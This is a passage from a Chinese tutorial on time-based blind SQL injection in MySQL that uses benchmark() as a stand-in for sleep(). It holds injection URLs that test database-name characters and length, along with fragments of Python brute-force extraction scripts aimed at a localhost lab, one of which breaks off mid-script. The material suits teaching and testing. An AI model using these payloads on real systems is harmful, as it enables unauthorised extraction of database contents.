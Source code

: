 ```python
       else:
           high = mid
       mid = (low+high)//2
   if(mid ==32 or mid ==127):
       break
   flag = flag+chr(mid)
   print(flag)
```



##### 基于benchmark()函数的延时盲注



benchmark()函数是MySQL的一个内置函数，用于测试函数或者表达式的执行速度，当sleep函数被ban时，该函数明显是一个不错的代替选择。
其运行返回值都是0，仅仅会执行显示时间。



用法：**benchmark(重复次数, 执行的函数)**



例如：将select database()执行100000000次，显示耗时0.52sec



```sql
select benchmark(100000000,(select database()))
```



我们来看看在盲注利用时的相关特性：



1.  **无论benchmark()内的函数或表达式语句执行结果为True、False、Null，他都会正常执行。** 
2.  **仅支持查询单行单列的结果，如果存在单行单列的执行结果，则可以正常执行，反之则报错，执行失败。** 
3.  **当benchmark()内的语句运行失败时，benchmark同样执行失败。** 



**结合上面三个特性，我们可以利用benchmark函数判断我们查找的信息是否存在（表名、列名、字段名等），可以从是否有延时来验证数据库中是否有我们要查找的信息，效果上约等于sleep()函数，要是再配合上暴力破解那岂不是美滋滋。**



```sql
http://127.0.0.1/?id=1 and if(ascii(substring((database()),1,1))=115,(select benchmark(10000000,md5(0x41))),1) --+    //判断数据库名第一个字符是否为 s

http://127.0.0.1/?id=1 and if(length(database())=6,(select benchmark(10000000,md5(0x41))),1) --+     //判断数据库名长度是否为 6
```



给出基于benchmark()函数 的时间盲注脚本：



```python
#author:windy_2import requests
urlx = 'http://127.0.0.1/?id= 1 and if((substr((select database()),'
payloads = 'qwertyuiopasdfghjklzxcvbnm{}_0123456789'

def guess_column(table):
    string = ''
    extend = 0
    list = []
    length2 = 0
    num = []
    num1 = []
    url1 = 'http://127.0.0.1/?id= 1 and if(((select count(column_name) from information_schema.columns where table_name=\''+ table + '\')='
```